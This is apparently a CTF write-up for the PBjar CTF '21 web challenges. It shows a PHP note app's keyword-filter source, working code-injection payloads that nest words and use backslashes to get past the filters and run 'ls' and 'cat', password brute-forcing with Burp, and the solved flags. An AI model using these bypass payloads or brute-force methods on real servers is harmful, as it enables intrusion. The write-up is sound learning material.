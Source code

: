 # PBjar CTF '21
## Web challenges

Those challenges are not hard. Anyway, I still write writeup for them to end a lazy week :(
## Programmers hate programming

File ProgrammersHateProgramming-sourcecode.php is provided:
```
<?php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<script>", "", $notetoadd);
    $notetoadd = str_replace_first("</script>", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $filename = generateRandomString();
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```
We can understand that when we write something in 'new node', a file with php extension will be created with our input.

Filter in this challenge is really easy to bypass, we can use two filtered words interlocked, only one words is deleted and we got the word we need.

For example:

![](img1.png)

oke, generate payload to find and get flag:

- List files in `/`
  ```
  <?p<?phphp
    system('ls /');
  ??>>
  ```
  
 Oke, flag is here
 
 ![](img2.png)
 
 - Next, just cat the flag:
  ```
  <?p<?phphp
    system('cat /flflagag.php');
  ??>>
  ```
### Flag: flag{server_side_php_xss_is_less_known_but_considering_almost_80%_of_websites_use_php_it_is_good_to_know_thank_me_later_i_dont_want_to_stop_typing_this_flagg_is_getting_long_but_i_feel_like_we're_developing_a_really_meaningful_connection}
  
## Programmers hate programming 2
The idea is same with Programmers hate programming but more words are filtered:
```
<?php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<?", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("ls", "", $notetoadd);
    $notetoadd = str_replace("ZeroDayTea is not hot", "", $notetoadd);

    $filename = generateRandomString();
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```
- List file in /:
With some words we can use the same way with programmers hate programming to bypass, but others like `cat, ls,..` We can see str_replace is used and replacing does not do one time, so we can use the this way.
We can use `\` to notify that the command doesn't finish. By this way we will have full command:
```
  <<??php
    system('l\s /');
  ??>>
```
- Cat flag.php:

```
  <<??php
    system('c\at /flflagag.php');
  ??>>
```
### Flag: flag{wow_that_was_a_lot_of_filters_anyways_how_about_that_meaningful_connection_i_mentioned_earlier_:)}

## C0rl:
### Hint: username and poplular password for admin.

First, I think popular username for admin maybe is admin, and what is popular password for admin, I'm to lazy to think, so I use `100000-password-seclists.txt` to brute force with burp.

Finally, I find out the password is `admin`, lol.

I still can't get the flag:

![](img3.png)

But Why `put` is bold?

Let try changing HTTP request heder to `PUT`. Oh we get flag:

![](img4.png)

### FLAG: flag{HTTP_r3qu35t_m3th0d5_ftw}

## Hack NASA With HTML Mr. Inspector Sherlock
It's an easy challenge, so I only show the file which flag locate.

FLag part 1 is in animation.js: flag{wA1t_a_m1nUt3_

Flag part 2 is in what.html (access sofware.html we can see what.html): I_th0ugh1_sh3l0ck_w2s

Flag part3 (only view source): _a_d3t3ct1iv3????!?!?!}

### Flag: flag{wA1t_a_m1nUt3_I_th0ugh1_sh3l0ck_w2s_a_d3t3ct1iv3????!?!?!}

## omgsosmolhowhacc





